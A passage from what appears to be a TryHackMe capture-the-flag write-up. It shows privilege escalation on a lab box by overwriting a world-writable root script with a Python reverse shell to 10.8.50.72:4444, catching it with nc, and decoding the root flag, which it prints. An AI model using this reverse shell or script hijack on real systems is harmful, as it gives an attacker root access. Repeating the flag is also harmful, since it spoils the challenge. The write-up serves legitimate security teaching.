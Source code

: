 And the script is world-writable:

~~~
bash-4.4$ ls -l /var/backups/script.sh
ls -l /var/backups/script.sh
-rwxrwxrwx 1 root root 73 Oct  7  2020 /var/backups/script.sh
~~~

Let's modify it as follows:

```bash
#!/bin/bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.50.72",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

Now, start a listener and wait a minute to get a root shell:

~~~
kali@kali:/data/src$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.244.196] 46344
bash: cannot set terminal process group (2639): Inappropriate ioctl for device
bash: no job control in this shell
root@elyana:~# cd /root
cd /root
root@elyana:~# cat root.txt
cat root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
root@elyana:~# cat root.txt | base64 -d
cat root.txt | base64 -d
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}
~~~

Root flag: `THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}`

